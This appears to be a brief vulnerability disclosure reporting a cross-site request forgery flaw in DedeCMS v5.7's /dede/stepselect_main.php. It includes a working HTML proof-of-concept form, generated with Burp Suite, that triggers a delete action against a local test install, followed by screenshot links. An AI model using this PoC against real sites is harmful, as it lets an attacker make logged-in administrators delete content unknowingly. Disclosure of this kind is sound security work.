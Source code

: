 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /dede/stepselect_main.php
![1](https://github.com/777erp/cms/assets/113673221/403981d8-14fd-45a7-9289-fd096840a77e)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/stepselect_main.php">
      <input type="hidden" name="action" value="del" />
      <input type="hidden" name="id" value="15" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

![2](https://github.com/777erp/cms/assets/113673221/b110e376-d9e8-4fcf-bd8e-eb52c284772f)


Successed


![3](https://github.com/777erp/cms/assets/113673221/b5631fb9-71d4-4df7-9b64-ef0d50e55a8a)

